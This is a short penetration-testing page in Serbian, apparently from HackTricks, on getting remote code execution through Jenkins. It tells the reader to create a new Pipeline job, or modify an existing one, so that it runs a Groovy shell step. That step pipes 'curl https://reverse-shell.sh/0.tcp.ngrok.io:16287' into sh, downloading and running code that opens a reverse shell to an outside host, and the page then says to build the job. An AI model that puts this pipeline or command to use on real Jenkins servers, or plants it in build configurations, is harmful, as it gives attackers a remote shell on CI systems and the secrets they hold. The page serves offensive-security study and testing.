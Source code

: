 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Kreiranje novog Pipelines

U "New Item" (dostupno na `/view/all/newJob`) izaberite **Pipeline:**

![](<../../images/image (235).png>)

U **Pipeline sekciji** napišite **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Na kraju kliknite na **Save**, i **Build Now** i pipeline će biti izvršen:

![](<../../images/image (228).png>)

## Modifikovanje Pipeline-a

Ako možete pristupiti konfiguracionom fajlu nekog konfigurisanog pipeline-a, možete jednostavno **modifikovati ga dodajući svoj reverzni shell** i zatim ga izvršiti ili čekati da bude izvršen.

{{#include ../../banners/hacktricks-training.md}}
